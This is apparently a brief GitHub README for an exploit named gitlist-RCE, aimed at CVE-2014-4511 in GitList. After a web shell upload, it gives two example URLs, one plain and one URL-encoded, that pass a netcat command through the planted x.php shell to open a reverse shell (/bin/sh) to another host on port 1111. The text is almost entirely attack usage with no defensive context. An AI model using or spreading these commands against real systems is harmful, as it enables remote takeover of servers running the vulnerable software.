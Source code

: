 # gitlist-RCE
CVE-2014-4511
example:
after shell upload successfully:
access:
http://192.168.1.126/cache/x.php/?cmd=nc -nv 192.168.1.127 1111 -e /bin/sh
http://192.168.1.126/cache/x.php/?cmd=nc%20-nv%20192.168.1.127%201111%20-e%20/bin/sh
